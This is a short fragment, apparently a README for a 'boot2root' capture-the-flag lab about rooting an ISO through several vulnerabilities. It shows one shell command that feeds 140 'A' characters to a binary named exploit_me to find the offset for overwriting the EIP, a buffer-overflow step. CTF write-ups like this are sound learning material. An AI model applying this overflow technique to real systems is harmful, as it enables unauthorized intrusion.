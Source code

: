 # boot2root
root a iso using multiple vulnerabilities 


## ZAZ user

#### find char numbers to overwrite the EIP

```
./exploit_me `printf 'A%.0s' {1..140}`
```
